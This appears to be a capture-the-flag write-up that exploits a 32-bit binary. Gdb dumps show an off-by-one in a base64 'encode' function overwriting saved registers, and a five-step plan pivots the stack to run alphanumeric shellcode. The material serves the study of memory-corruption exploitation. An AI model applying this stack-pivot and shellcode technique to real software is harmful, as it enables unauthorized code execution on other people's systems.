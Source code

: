 `encode` overwrites saved registers of the previous functions :

```
(gdb) x/5i $pc
=> 0x8048c93:	pop    ebx
   0x8048c94:	pop    esi
   0x8048c95:	pop    edi
   0x8048c96:	pop    ebp
   0x8048c97:	ret

(gdb) x/5wz $sp
0xffffcb6c:	0x7741444d	0x7741444d	0x3d3d414d	0xffffcb00
0xffffcb7c:	0x0804835f

(gdb) x/s $sp
0xffffcb6c:	"MDAwMDAwMA=="
```

`ebx`, `esi` are totally controlled. `esi` contains two `=` (padding character).
`ebp` has its last byte set to `NULL`.

This shifts `main`'s esp by a few bytes, right into the base64 buffer.

```
(gdb) x/9i $pc
=> 0x8048366:	lea    esp,[ebp-0x10]
   0x8048369:	xor    eax,eax
   0x804836b:	pop    ecx
   0x804836c:	pop    ebx
   0x804836d:	pop    esi
   0x804836e:	pop    edi
   0x804836f:	pop    ebp
   0x8048370:	lea    esp,[ecx-0x4]
   0x8048373:	ret

(gdb) x/5wz $ebp - 0x10
0xffffcaf0:	0x7741444d	0x7741444d	0x7741444d	0x7741444d
0xffffcb00:	0x7741444d

(gdb) x/s $ebp - 0x10
0xffffcaf0:	"MDAwMDAwMDAwMDAwMDAwMA=="
```

The `ecx`, `ebx`, `esi`, `edi` and `ebp` registers can thus be controlled. `esp`
is `ecx - 4`. This is why the segmentation fault occurs with `esp == "MDAw" - 4`

The attack plan is:
1. write shellcode in base64
2. use oracle to decode a valid base64 address
3. call encode with shellcode in `key` and the address sprayed in `buf`
4. off-by-one will turn load the address as stack pointer
5. set return address in key

```
(gdb) x/i $pc
=> 0x8048373:	ret

(gdb) x/wz $sp
0x7777702c:	0x77777030

(gdb) x/4i 0x77777030
   0x77777030:	push   0x2f526558
   0x77777035:	pop    eax
   0x77777036:	xor    eax,0x2f526558
   0x7777703b:	push   eax
```
